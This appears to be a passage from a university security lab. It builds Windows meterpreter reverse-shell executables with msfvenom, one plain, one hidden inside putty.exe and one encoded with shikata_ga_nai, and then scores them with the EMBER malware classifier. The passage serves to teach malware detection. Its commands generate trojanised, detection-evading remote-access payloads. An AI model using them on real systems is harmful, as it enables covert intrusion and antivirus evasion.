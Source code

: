 ```bash
msf6 > 
```

The graphic changes each time you load it so don't worry if your version doesn't show Missile Command - and in case you were wondering - Missile Command was a very popular video game back in the 1980's :)

We are going to run `msfvenom` from the Metasploit command line to generate two versions of meterpreter executables. The first will run an unmodified meterpreter executable:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe > /volume1/meterpreter1.exe
```

You don't really have to worry about the parameters but if you are interested, the `LHOST` and `LPORT` arguments tell Meterpreter where to connect back to (i.e. our machine). We haven't set up a listener on port 4443 and our executable actually doesn't send back anything, so these values are just there as a space holder. The `-f exe` tells Meterpreter that we are using an executable format for the payload.

Now we will create a second version that will effectively embed Meterpreter in a normal Windows executable `putty.exe`. Putty is an application that allows SSH connections on a Windows box. I have saved `putty.exe` in the `/volume1` (shared) directory. Run the `msfvenom` command as follows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe -x /volume1/putty.exe > /volume1/meterpreter2.exe
```

Moreover, `Msfvenom` has other encoders that try and obfuscate the file to avoid detection. One of these is called `shikata ga nai`. You can create a meterpreter binary using the flag:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe -e x86/shikata_ga_nai > /volume1/meterpreter3.exe
```

Now that we have the three different samples, we can go back to our classifier in the `ai-malware` container and see what happens. Launch the `ai-malware` container with the `volume1` attached (it will be a new container instance of the `ai-malware` image):

```bash
sudo docker run -v volume1:/volume1 -it --rm uwacyber/cits1003-labs:ai-malware
```

Now, move the meterpreter files into the `/opt/ember` directory. With the first version `meterpreter1.exe` we get:

```bash
root@cb69acf0fc22:/opt/ember# python3 scripts/classify_binaries.py -m ember_model_2018.txt meterpreter1.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
Signature PDB_20 is not implemented yet!
0.9999979600610946
```
